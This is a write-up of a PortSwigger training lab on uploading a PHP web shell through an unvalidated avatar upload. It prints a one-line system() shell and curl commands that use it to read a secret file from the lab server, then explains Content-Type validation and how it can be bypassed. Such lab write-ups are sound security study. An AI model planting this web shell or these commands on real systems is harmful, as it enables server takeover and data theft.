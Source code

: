 # 1f1 - Remote code execution via web shell upload \[PortSwigger Lab]

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret.

You can log in to your own account using the following credentials: `wiener:peter`

### **Solution:**

So this application has an unprotected upload field in user page where you can upload profile avatar.

{{< figure src="/.gitbook/assets/Pasted image 20240719131804.png" alt="" >}}

From there, I effectively uploaded a file named `mal.php` with contents `<?php echo system($_GET['command']); ?>`

once upload was done, I had to know where the file was uploaded so I could call it. Inspecting avatar link gave me the clue. `<img src="/files/avatars/mal.php" class="avatar">`

so I opened up terminal and called the `mal.php`

```
$> curl -X GET "https://0a9000000490ee47800ead51001f0062.web-security-academy.net/files/avatars/mal.php?command=pwd"

/var/www/html/avatars
/var/www/html/avatars
```

Now I know I'm at `/var/www/html/avatars`. So to read the contents of the `secrets` file, all I have to do is a simple \[\[2 - Portswigger Academy#Path Traversal |Path Traversal]]

```
$> curl -X GET "https://0a9000000490ee47800ead51001f0062.web-security-academy.net/files/avatars/mal.php?command=cat%20../../../../home/carlos/secret"

U4AE****************************U4AE****************************
```

Keep in mind this method repeats the message twice, so I had to remove the second part of message.

The `secret` contents:`` `U4AE****************************' ``

***

Most of the times, FOV will not be this easy. There will be defense mechanisms in place, but it doesn't mean they are robust. They can still be exploited by finding flaws in these defense mechanisms.

1. Flawed file type validation When submitting HTML forms, the browser sends this data in POST request with content type `application/x-www-form-url-encoded`. This is fine for textual data, but for larger amounts of binary data like PDF or images, content type `multipard/form-data` is preferred.

Consider the following example of form upload with image field, description and username

```
POST /images HTTP/1.1 
Host: normal-website.com 
Content-Length: 12345 
Content-Type: multipart/form-data; 
boundary=---------------------------012345678901234567890123456 ---------------------------012345678901234567890123456 
Content-Disposition: form-data; 
name="image"; 
filename="example.jpg" 
Content-Type: image/jpeg 
[...binary content of example.jpg...] 
---------------------------012345678901234567890123456 
Content-Disposition: form-data; 
name="description" This is an interesting description of my image. ---------------------------012345678901234567890123456 
Content-Disposition: form-data; 
name="username" wiener ---------------------------012345678901234567890123456--
```

We can see Content-Type, filename, binary data and other interesting information about this form in here.

One way that a website might validate uploaded file, is to check the input-specific `Content-Type` if it matches expected file type. if it only expects `image/png` it will only allow PNG. It could become problematic if the server trusts this header for what a file is and doesn't perform further validation on the file, whether the file itself matches its description. this defense can be bypassed a tool like BurpSuite.
